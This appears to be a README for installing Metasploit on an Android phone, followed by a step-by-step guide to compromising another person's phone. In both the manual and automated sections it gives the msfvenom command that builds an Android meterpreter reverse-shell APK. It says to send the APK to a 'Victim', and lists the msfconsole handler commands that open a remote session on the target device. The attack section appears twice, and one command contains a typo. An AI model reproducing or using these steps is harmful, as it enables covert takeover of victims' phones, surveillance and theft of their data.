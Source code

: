 # MANUAL INSTALLATION
-------------------

# metasploit
-------------------------------------------------
<p> Install unstable Repo using this cmd :  <code>apt install unstable-repo </code> </p
<br>
<p> Update using this cmd :  <code>apt update</code> </p>
<br>
<p> Install Metasploit Framework using this cmd :  <code>apt install metasploit-framework </code> </p>
<br>

# After Installing Metasploit Framework
-------------------------------------------------

<p> Create a Android Payload using this cmd :  <br> <code>msfvenom -p android/meterpreter/reverse_tcp LHOST=ip addr LPORT=8001 -o /sdcard/Apk_Name.apk </code> </p>
<br>
  
# After Creating Payload For Android 
-----------------------------------------------------

<p> Send the Apk_Name.apk to your <b>Victim</b> (targeted_user) 
  
# Start a Metasploit Listener
-----------------------------------------------------
<p> open metasploit Console using this cmd :  <code>msfconsole </code> </p>

<h3>In msfconsole</h3> <br>

<ul> Type the following code : <br>
  <li> <code>use exploit/multi/handler</code> </li>
  <li> <code>set payload android/meterpreter/reverse_tcp</code> </li>
  <li> <code>set LHOST ip_addr</code> </li>
  <li> <code>set LPOST 8001</code> </li>
  <li> <code>run</code> </li>
 </ul>
 
 <p>Open the Application in target Phone</p>
 <p>then You will Get the Message Session Created...</p>
 <p> Then Type help cmd <code>help</code></p>
 <p> This will list the set of commands you can execute on target phone..... </p>
  
 # AUTOMATED INSTALL
 --------------------------
 
 <p> Update using this cmd : <code> apt update </code> </p>
 <p> Install Git Using this cmd : <code> apt install git </code> </p>
 <p> change directory to metasploit folder using this cmd : <code> cd metasploit</code> </p>
 <p> Type this cmd : <code> chmod +x install.sh </code> </p>
 <p> Type the following cmd : <code> ./install.sh </code> </p>
 <p> Then wait for 4-5 mintues it will automatically install Metasploit Framework </p>
 
 # After Installation 
 -------------------------
 
<p> Create a Android Payload using this cmd :  <br> <code>msfvenom -p android/meterpreter/reverse_tcp LHOST=ip addr LPORT=8001 -o /sdcard/Apk_Name.apk </code> </p>
<br>
  
# After Creating Payload For Android 
-----------------------------------------------------

<p> Send the Apk_Name.apk to your <b>Victim</b> (targeted_user) 
  
# Start a Metasploit Listener
-----------------------------------------------------
<p> open metasploit Console using this cmd :  <code>msfconsole </code> </p>

<h3>In msfconsole</h3> <br>

<ul> Type the following code : <br>
  <li> <code>use exploit/multi/handler</code> </li>
  <li> <code>set payload android/meterpreter/reverse_tcp</code> </li>
  <li> <code>set LHOST ip_addr</code> </li>
  <li> <code>set LPOST 8001</code> </li>
  <li> <code>run</code> </li>
 </ul>
 
 
 <p>Open the Application in target Phone</p>
 <p>then You will Get the Message Session Created...</p>
 <p> Then Type help cmd <code>help</code></p>
 <p> This will list the set of commands you can execute on target phone..... </p>
  
